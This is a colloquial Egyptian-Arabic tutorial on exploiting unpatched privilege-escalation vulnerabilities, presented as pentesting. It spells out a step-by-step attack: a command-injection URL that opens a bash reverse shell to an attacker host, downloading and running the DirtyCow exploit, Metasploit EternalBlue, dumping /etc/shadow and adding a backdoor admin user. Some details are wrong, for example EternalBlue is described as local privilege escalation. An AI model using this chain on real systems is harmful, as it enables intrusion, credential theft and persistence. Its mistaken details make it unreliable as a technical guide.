 تمام، هشرح لك "Exploiting Unpatched Privilege Escalation Vulnerabilities" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هو Exploiting Unpatched Privilege Escalation Vulnerabilities؟**

#### **الشرح العميق:**
"Exploiting Unpatched Privilege Escalation Vulnerabilities" يعني استغلال ثغرات في تصعيد الصلاحيات (Privilege Escalation) اللي لسه ما اتعمللهاش تحديث (Unpatched) في نظام أو برنامج. الثغرات دي بتكون عيوب في البرمجيات (زي نواة لينكس، ويندوز، أو تطبيقات) بتسمح لمستخدم عادي (Low Privilege) يصير لمستوى أعلى (زي root أو System). "Unpatched" يعني إن الثغرة معروفة (لها CVE مثلًا) بس النظام ما اتحدثش عشان يصلحها، فالمهاجم يقدر يستغلها بسهولة لو عرف إزاي.

- **أمثلة:** DirtyCow (CVE-2016-5195) في لينكس، أو EternalBlue (CVE-2017-0144) في ويندوز.
- **الهدف:** تصعيد الصلاحيات من مستخدم عادي لـ Admin/Root.

#### **الأدوات والأوامر العملية:**
1. **فحص النظام:**
   - لينكس: `uname -r` -> `3.16.0-38-generic` (لو قديم، ممكن يكون متأثر).
   - ويندوز: `systeminfo` -> تشوف الإصدار ومستوى التحديثات.
2. **البحث عن ثغرات:**
   - `searchsploit linux kernel 3.16` -> يجيب Exploits متاحة.
3. **Metasploit:**
   - `msfconsole` -> `search privilege escalation`.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون لقيت خرم في حيطة البيت لسه محدش سده، تدخل منه وتبقى الكبير جوا! Unpatched يعني النظام نايم وما حدثش، فتقدر تطلع الباشا بسهولة."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
الثغرات دي خطيرة لأنها بتفتح الباب للمهاجم يتحكم في النظام كله لو ما اتعمللهاش Patch. يعني:
- **تصعيد صلاحيات:** من مستخدم عادي لـ root/System.
- **تحكم كامل:** يسرق بيانات، يزرع Backdoors، أو يخرب النظام.
- **انتشار أوسع:** يستخدم النظام المخترق كقاعدة لمهاجمة أنظمة تانية.

في الـ Pentesting، الثغرات اللي ما اتحدثتش بتكون ذهب لأنها بتديك طريق سريع للوصول للقمة لو النظام متأخر في التحديثات.

#### **الأدوات والأوامر العملية:**
1. **فحص الثغرات:**
   - لينكس: `cat /etc/os-release` + `uname -r` -> قارن بالـ CVEs.
   - ويندوز: `wmic qfe list` -> لو ما لقيتش تحديثات حديثة، ابحث عن Exploits.
2. **تشغيل Exploit:**
   - لو لقيت CVE-2016-5195 (DirtyCow):
     - `gcc -pthread dirty.c -o dirtycow && ./dirtycow`.
3. **Metasploit مثال:**
   - `use exploit/windows/local/ms10_092_schelevator` -> لو ويندوز قديم.

#### **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون سايب باب البيت مكسور وما صلحتوش، أي حد يخش ياخد كل حاجة! المهاجم يلاقي الثغرة دي، يبقى الكبير بتاع النظام في ثواني."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الثغرات اللي ما اتعمللهاش Patch عشان تصعد صلاحياتك من مستخدم عادي لـ Admin/Root.
- **مثال واقعي:** لو لقيت سيرفر لينكس قديم متأثر بـ DirtyCow، تشغل الـ Exploit وتاخد root.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي ثغرة زي دي، زي ما تكون لقيت كنز في لعبة، تستخدمه وتبقى الكبير بتاع الماتش من غير ما حد يحس!"

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29 (لينكس).
  - Port 445: SMB (ويندوز).

#### **الخطوة 2: الوصول الأولي**
- لو لقيت ثغرة ويب:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id` -> لو رجع `www-data`:
  - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.

#### **الخطوة 3: التحقق من الإصدار**
- في لينكس:
  - `uname -r` -> `3.16.0-38-generic` (متأثر بـ DirtyCow مثلًا).
- في ويندوز:
  - `systeminfo | findstr "OS Version"` -> `6.1.7600` (Windows 7 بدون SP1، متأثر بـ MS17-010).

#### **الخطوة 4: البحث عن Exploit**
- لينكس:
  - `searchsploit linux kernel 3.16` -> يجيب DirtyCow (CVE-2016-5195).
- ويندوز:
  - `searchsploit windows 7 privilege` -> يجيب MS17-010 (EternalBlue).

#### **الخطوة 5: تشغيل الـ Exploit**
- **في لينكس (DirtyCow):**
  - `wget http://192.168.1.100/dirty.c -O /tmp/dirty.c`.
  - `gcc -pthread /tmp/dirty.c -o /tmp/dirtycow`.
  - `./tmp/dirtycow` -> يضيف مستخدم `firefart` كـ root.
  - `su firefart` -> كلمة السر `firefart` -> `id` -> `uid=0(root)`.
- **في ويندوز (MS17-010):**
  - `msfconsole`.
  - `use exploit/windows/smb/ms17_010_eternalblue`.
  - `set RHOSTS 192.168.1.10`.
  - `set LHOST 192.168.1.100`.
  - `exploit` -> Shell كـ `SYSTEM`.

#### **الخطوة 6: استغلال وتوثيق**
- كـ root/System:
  - لينكس: `cat /etc/shadow` -> تسريب كلمات السر.
  - ويندوز: `net user hacker pass123 /add && net localgroup administrators hacker /add`.
- سجل الثغرة (مثل CVE-2016-5195) والإصدار المتأثر في تقريرك.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت سلاح قوي في لعبة، ضربت بيه الكل، وطلعت الكبير بتاع الحتة! الثغرات اللي ما اتحدثتش طريقك للفوز بسهولة لو لقيتها."

---

### **الخلاصة النهائية:**
Exploiting Unpatched Privilege Escalation Vulnerabilities هي طريقة خطيرة وفعالة لتصعيد الصلاحيات لو النظام ما اتحدثش. في الـ Pentesting، دور على الإصدارات القديمة بـ `uname` أو `systeminfo`، استخدم أدوات زي Searchsploit أو Metasploit عشان تشغل الـ Exploits، ووري العميل إن نظامه زي بيت مكسور لو ما حدثش! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!